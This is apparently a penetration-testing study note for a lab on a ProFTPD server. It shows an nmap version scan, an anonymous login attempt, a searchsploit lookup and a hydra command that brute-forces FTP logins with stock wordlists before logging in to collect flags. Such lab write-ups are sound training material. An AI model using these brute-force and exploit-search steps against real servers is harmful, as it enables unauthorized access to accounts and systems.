


# 🔬FTP

## Lab 1

>  🔬 [ProFTP Recon: Basics](https://attackdefense.com/challengedetails?cid=518)
>
>  - Target IP: `192.209.45.3`
>  - **Brute-force** of [ProFTP](http://www.proftpd.org/) server
>  - **Enumeration, nmap brute-force and flags** have been already covered in this [FTP Enum lab](../../../assessment-methodologies/3-enumeration/ftp-enum.md)

```bash
nmap -sV 192.209.45.3
```

```
21/tcp open  ftp  ProFTPD 1.3.5a
```

- Check anonymous login and inherent vulnerabilities

```bash
ftp 192.209.45.3
# anonymous login failed
```

```
ls -al /usr/share/nmap/scripts | grep ftp-*
```



```bash
searchsploit ProFTPD
# check exploits for the specific version
```

### Brute-Force

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.209.45.3 -t 4 ftp
```



- Try to connect with FTP and found credentials and retrieve every user's flag:

```bash
ftp 192.209.45.3
```

------

